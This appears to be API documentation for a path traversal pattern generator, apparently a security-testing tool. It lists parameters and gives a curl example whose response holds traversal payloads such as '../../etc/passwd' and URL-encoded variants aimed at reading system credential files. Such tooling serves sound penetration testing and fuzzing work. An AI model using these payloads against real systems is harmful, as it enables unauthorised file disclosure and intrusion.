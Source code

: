 #### Parameters

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `os_type` | string | `"unix"` | Target OS type (`unix`, `windows`, `generic`) |
| `file` | string | `"/etc/passwd"` | Target file to generate patterns for |
| `depth` | integer | `6` | Maximum traversal depth (1-50) |
| `include_absolute` | boolean | `false` | Include absolute path patterns |
| `quiet` | boolean | `false` | Suppress progress messages |

#### Example Request

```bash
# Generate UNIX patterns with absolute paths
curl -X POST "http://localhost:8000/generate" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ddp_1234567890abcdef" \
  -d '{
    "os_type": "unix",
    "file": "/etc/passwd",
    "depth": 5,
    "include_absolute": true
  }'

# Response:
{
  "status": "success",
  "config": {
    "os_type": "unix",
    "file": "/etc/passwd",
    "depth": 5,
    "include_absolute": true
  },
  "statistics": {
    "total_patterns": 1922,
    "relative_patterns": 1778,
    "absolute_patterns": 144,
    "generation_time": 0.312
  },
  "patterns": [
    "../etc/passwd",
    "../../etc/passwd",
    "../../../etc/passwd",
    "../../../../etc/passwd",
    "../../../../../etc/passwd",
    "/etc/passwd",
    "%2fetc%2fpasswd",
    "%2Fetc%2Fpasswd",
    "\\etc\\passwd",
    "%5cetc%5cpasswd",
    "...additional 1917 patterns..."
  ]
}
```
